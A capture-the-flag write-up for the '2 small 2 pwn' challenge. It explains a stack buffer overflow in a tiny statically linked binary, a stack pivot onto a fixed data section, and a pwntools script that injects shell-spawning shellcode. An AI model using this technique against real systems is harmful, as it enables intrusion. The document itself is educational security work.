 # 2 small 2 pwn

> I just read and write , Can you still Pwn me ?
>
> Service is running at nc 68.183.158.95 8992
>
> [q4](q4)

The given tiny binary has no security mechanisms enabled, there is only ASLR we have to bypass.

		$ checksec q4
	    Arch:     amd64-64-little
	    RELRO:    No RELRO
	    Stack:    No canary found
	    NX:       NX disabled
	    PIE:      No PIE (0x400000)
	    RWX:      Has RWX segments

Since it is statically linked, we can not ret-2-libc and since it does not contain enough gadgets to build a ROP chain that spawns a shell, we have to inject our own shellcode.

The binary lets us read 160 bytes onto the stack into a 16 bytes buffer, so we can easily overflow it and get execution. Since NX is disabled, we have RWX segments and could directly place shellcode on the stack, but we would have to find a reliable way to get the address of the stack due to ASLR. Luckily there is a data section at a fixed position that we could use instead to place our shellcode.

The exploit overwrites in the first stage the `RBP` with the address of the data section and overwrites the `RIP` to the address of the `main` function to recursively call it again, but leaving out the first instructions that modify the `RBP`. 

Since the `RBP` now points to the data section, we have moved the stack frame to an address we know and the read call will now store our next input there, so we can overflow the buffer again and overwrite the `RIP` to point to the beginning of our shellcode followed by the shellcode.

Exploit code:

```python
from pwn import *

main = 0x4000c7
msg = 0x6000ec

context.clear(arch='amd64')
shellcode = asm(shellcraft.sh())

pty = process.PTY
p = process('./q4', stdin=pty, stdout=pty)
# context.terminal = ['termite', '-e']
# p = gdb.debug('./q4', stdin=pty, stdout=pty)

p.sendline('A' * 16 + p64(msg) + p64(main))
p.sendline('A' * 24 + p64(msg+0x10) + shellcode)
p.interactive()
```